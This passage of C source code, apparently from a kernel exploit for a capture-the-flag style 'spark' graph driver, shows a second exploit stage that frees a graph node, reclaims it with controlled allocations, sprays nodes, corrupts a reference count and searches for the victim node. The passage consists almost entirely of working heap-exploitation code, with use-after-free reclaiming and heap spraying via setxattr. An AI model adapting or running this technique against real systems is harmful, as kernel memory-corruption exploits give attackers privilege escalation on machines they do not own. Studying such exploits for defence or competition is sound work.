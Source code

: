 ```c
		create();
}

static void stage2(struct reclaim_ctx *victim_ctx, int *victim_fdp)
{
#define STAGE2_NUM_NODES 16 // dist array size == 0x80 == sizeof node
	fprintf(stderr, "[S2] Creating graph\n");
	int fds[STAGE2_NUM_NODES];
	for (int i = 0; i < STAGE2_NUM_NODES; i++)
		fds[i] = create();
	for (int i = 1; i < STAGE2_NUM_NODES; i++)
		llink(fds[0], fds[i], 1); // 1 will be written at traversal_idx

	fprintf(stderr, "[S2] Freeing node\n");
	release(fds[STAGE2_NUM_NODES-1]);

	fprintf(stderr, "[S2] Reclaiming node\n");
	reclaim_alloc(victim_ctx, 1, 0, (0x80 + 0x8) / 8, 0); // target: sprayed refcount

	fprintf(stderr, "[S2] Finalizing root\n");
	finalize(fds[0]);

	fprintf(stderr, "[S2] Creating predecessor\n");
	int spray_incref_fd = create();

#define STAGE2_SPRAY_NUM 200
	fprintf(stderr, "[S2] Spraying nodes\n");
	int spray_fd[STAGE2_SPRAY_NUM];
	stage2_spray(spray_fd, 30, STAGE2_SPRAY_NUM, 4, 30);

	fprintf(stderr, "[S2] Incrementing sprayed refcounts\n");
	for (int i = 0; i < STAGE2_SPRAY_NUM; i++) {
		if (spray_fd[i] != -1)
			llink(spray_incref_fd, spray_fd[i], 0);
	}
	finalize(spray_incref_fd);

	fprintf(stderr, "[S2] Corrupting refcount\n");
	query(fds[0], fds[1]);

	fprintf(stderr, "[S2] Freeing victim node\n");
	release(spray_incref_fd);

	fprintf(stderr, "[S2] Reclaiming victim node\n");
	reclaim_free(victim_ctx); // unblock fault
	// ephemeral alloc to put two 0xff at the end for traversal top bytes
	unsigned char buf[0x80];
	buf[sizeof(buf)-1] = 0xff;
	buf[sizeof(buf)-2] = 0xff;
	assert(setxattr(".", "nonexistent", buf, sizeof(buf), XATTR_REPLACE) == -1);
	reclaim_alloc(victim_ctx, 0, 1337, 0, 0);

	fprintf(stderr, "[S2] Searching for victim node\n");
	int victim_fd = -1;
	for (int i = 0; i < STAGE2_SPRAY_NUM; i++) {
		if (spray_fd[i] != -1) {
			struct spark_info info = {
				.num_children = 0,
			};
			get_info(spray_fd[i], &info);
			if (info.num_children == 1337) {
				victim_fd = spray_fd[i];
				break;
```